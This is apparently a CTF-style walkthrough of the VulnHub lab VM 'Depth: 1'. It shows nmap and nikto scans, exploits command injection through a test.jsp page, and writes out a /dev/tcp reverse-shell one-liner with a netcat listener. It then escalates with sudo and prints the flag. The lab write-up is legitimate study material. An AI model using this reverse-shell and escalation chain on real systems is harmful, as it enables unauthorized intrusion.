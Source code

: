 # DEPTH1-VULNHUB

lets begin dig in,,,,,,,,,,,,,,,,

About Release
Back to the Top
Name: Depth: 1
Date release: 27 Oct 2017
Author: Dan Lawson
Series: Depth
Web page: https://depthsecurity-my.sharepoint.com/personal/dlawson_depthsecurity_com/_layouts/15/guestaccess.aspx?docid=1ed416c7a2c4640c3bc2bfcb64e5a9823&authkey=AYzxAjGDCvY90H355bLzTTo
Description
Back to the Top
Many times while conducting a pentest, I need to script something up to make my life easier or to quickly test an attack idea or vector. Recently I came across an interesting command injection vector on a web application sitting on a client's internet-facing estate. There was a page, running in Java, that allowed me to type arbitrary commands into a form, and have it execute them. While developer-provided webshells are always nice, there were a few caveats. The page was expecting directory listing style output, which was then parsed and reformatted. If the output didn't match this parsing, no output to me. Additionally, there was no egress. ICMP, and all TCP/UDP ports including DNS were blocked outbound.

I was still able to leverage the command injection to compromise not just the server, but the entire infrastructure it was running on. After the dust settled, the critical report was made, and the vulnerability was closed, I thought the entire attack path was kind of fun, and decided to share how I went about it. Since I enjoy being a free man and only occasionally visit prisons, I've created a simple boot2root style VM that has a similar set of vulnerabilities to use in a walkthrough.

MD5: 47975764E3A6AAD07749C35072C1B025
SHA1: 6516163F84ACDDD846981C94262EC3538A18970E


lets begin enumeration::::::
  nmap_------
  # Nmap 7.94SVN scan initiated Sun Sep 15 13:14:16 2024 as: nmap -sV -sC -Pn -oN nmap 192.168.73.144
Nmap scan report for 192.168.73.144
Host is up (0.00024s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
| http-methods: 
|_  Potentially risky methods: PUT DELETE
|_http-title: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
MAC Address: 00:0C:29:29:4E:C1 (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Sep 15 13:14:32 2024 -- 1 IP address (1 host up) scanned in 16.11 seconds

 
 
 
 
 
 ***NIKTO  is a pluggable web server and CGI scanner written in Perl, using rfp’s LibWhisker to perform fast security or informational checks.




nikto -h http://192.168.73.144:8080/


- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          192.168.73.144
+ Target Hostname:    192.168.73.144
+ Target Port:        8080
+ Start Time:         2024-09-16 01:57:30 (GMT5.5)
---------------------------------------------------------------------------
+ Server: Apache-Coyote/1.1
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a differe: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ OPTIONS: Allowed HTTP Methods: GET, HEAD, POST, PUT, DELETE, OPTIONS .
+ HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ /: Appears to be a default Apache Tomcat install.
+ /manager/html: Default Tomcat Manager / Host Manager interface found.
+ /test.jsp: This might be interesting.
+ /manager/status: Default Tomcat Server Status interface found.
+ 8254 requests: 0 error(s) and 9 item(s) reported on remote host
+ End Time:           2024-09-16 01:57:45 (GMT5.5) (15 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested



 /test.jsp: This might be interesting.  might hide something so search it on url as http://192.168.73.144:8080/test.jsp

 
 listing out for user name
 
 Command: ls -l /home

Owner	Group	Size	Filename
bill 	bill 	4096 	bill


 so then i list out the tmp folder
 
 
 Command: ls -l /tmp

Owner	Group	Size	Filename
tomcat8 	tomcat8 	4096 	hsperfdata_tomcat8
root 	root 	4096 	systemd-private-70a6d11547824f1ba12a1cc1dd61b2af-systemd-resolved.service-W9Wr87
root 	root 	4096 	systemd-private-70a6d11547824f1ba12a1cc1dd61b2af-systemd-timesyncd.service-yZfQxx
tomcat8 	root 	4096 	tomcat8-tomcat8-tmp
root 	root 	4096 	vmware-root 



no-w i've to generate reverse shell using reverse shell genaretor:::::::
ssh bill@localhost sudo bash -i >& /dev/tcp/192.168.73.129/4242 0>&1  {get it form online reverse shell generator}
using netcat  for nc -lvp 4242

::::::::getting the shell:::Boooooyahhhhhhhhhh:""""::: 


THEn i simply use sudo -l for take a look on permissions 
Matching Defaults entries for root on b2r:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User root may run the following commands on b2r:
    (ALL : ALL) ALL
root@b2r:~# sudo  su 
then go to that root folder
the i successfully get the flag
which is ::
::::::::::::::::::::::::::::::flag{WellThatWasEasy}:::::::::::::::::::::::::::::

 that's went quiet  easy DEPTH1---VULNHUB





  
















